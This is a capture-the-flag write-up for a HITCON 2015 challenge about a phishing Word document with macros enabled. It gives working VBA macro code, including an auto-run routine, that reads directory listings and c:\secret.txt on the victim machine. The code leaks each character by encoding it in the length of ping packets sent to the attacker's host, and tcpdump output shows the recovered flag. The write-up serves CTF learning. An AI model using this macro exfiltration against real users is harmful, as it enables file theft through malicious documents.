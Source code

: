 We made it to top 10, Team CLGT !

Description:

>Sent me a .doc, I will open it if your subject is "HITCON 2015"! Find the flag under my file system. p.s. I've enabled Macro for you. ^_________________^ phishing.me.hitcon.2015@gmail.com.
>
>Hint


From the information, we know this challenge is all about macro. Requirement will be,

- MS Windows
- Ms Word with Macro
- Email with subject "HITCON 2015"
- RCPT TO: phishing.me.hitcon.2015@gmail.com

Once all this condition is fulfilled. We received an confirmation email from HITCON
> I've read your doc. Interesting

First guess was, ping to home
> Shell ("ping -n 1 my.ip.add.ress")

TCPDUMP from home with ICMP on. Bingo, packet received. We went and wrote few more connection script like email and web. Looks like we got no luck at all. So we concluded,

- No Outgoing TCP Allowed (** ppp solved it with DNS Query)

Looks like ICMP able to to go out from the box. So, we did another test.

> Shell ("ping -n 1 -l 2 my.ip.add.ress")

And we received

> 11:29:43.643405 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2249, length 10

This is clear that we can somehow use the length to pass some data. So, first thing is. We want to know where are we.

```
strString = (ActiveDocument.Path)
For i = 1 To Len(strString)
    strHex = Hex(Asc(Mid(strString, i, 1)))
    strDec = CLng("&h" & strHex)
    strDec = strDec - 8
    Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
Next
```

Next From the ping with length, we convert back the Dec value back to ASCII, we got PATH Secondly, we go a "dir"

```
Set objFSO = CreateObject("Scripting.FileSystemObject")
objStartFolder = (ActiveDocument.Path)

Set objFolder = objFSO.GetFolder(objStartFolder)
'MsgBox objFolder.Path
Set colFiles = objFolder.Files
For Each objFile In colFiles

    'MsgBox objFile.Name

    strString = objFile.Name

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        For iCount = 1 To 1000
        Next iCount
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next

    Shell ("ping -n 1 -l 34 my.ip.add.ress")
Next
```

Nothing seems to me interesting. So we change and code a little bit and do a dir on "C:\", we found secret.txt !!! Another peace of code to show what is in secret.txt

```
Sub AutoOpen()

Dim MyString As String

'Open the text file
'(replace "MyTextFile.txt" with the name of your file)
Open "c:\secret.txt" For Input As #1

'loop through the file until the end of file marker
'is reached
Do While Not EOF(1)
    'read line of text, place it in the MyString variable
    Line Input #1, MyString
     'MsgBox (MyString)
    'you can then use whatever is in MyString for
    'your formatting purposes
Loop

'close the text file
Close #1

    strString = MyString
    'strString = "ABCD"

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8

        For iCount = 1 To 10000000
        Next iCount
        'MsgBox (strHex & " " & strDec)
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next


End Sub
```

From TCPDUMP we received
```
11:29:41.058538 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2215, length 104
11:29:41.058617 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2215, length 104 11:29:41.128465 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2216, length 105
11:29:41.128542 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2216, length 105
11:29:41.202369 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2217, length 116
11:29:41.202441 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2217, length 116
--- More ICMP Traffic ---
11:29:44.321431 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2258, length 125
11:29:44.321527 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2258, length 125
```

By taking all the length, we got the string as

> hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}

Done !!!

Special thanks to k9 from CLGT
